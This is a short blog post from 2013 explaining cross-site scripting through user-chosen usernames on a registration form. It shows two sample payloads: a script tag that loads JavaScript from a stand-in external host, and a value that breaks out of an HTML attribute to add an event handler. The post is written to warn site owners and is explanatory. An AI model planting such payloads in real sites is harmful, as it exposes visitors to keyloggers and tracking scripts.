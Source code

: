 ```yaml
---
id: 1127
title: Code Injection prevention - user names
date: 2013-02-20 23:26:41
author: taimane
layout: post
permalink: /code-injection/
published: true
categories:
   -
tags:
   -
---
```

Code injection (often called cross-site-scripting or XSS ) is where a malicious user combines text and scripting to enter "malicious" values to your web page forms.

You have a system allowing users to register as members to your web site. Users are allowed to create their own username. 

They fill out a form, and you save the data they set to the database. 

Someone could create a user with the following username:



```
Username<script type="text/javascript"; src="http://www.blah.net/danger.js">
</script>
```



Visitors will see the username, but also external JavaScript will be loaded.

This allows attackers to add keyloggers, tracking scripts, or porn banners on your site, or just stop your site working altogether. 



There is a similar problem if someone tries to enter smt. like this in the input field. 

```
Mister XSS" onhover="some bad code
```
in the text field.



```
<input type="text" value="Mister XSS" onhover="some bad code" />
```

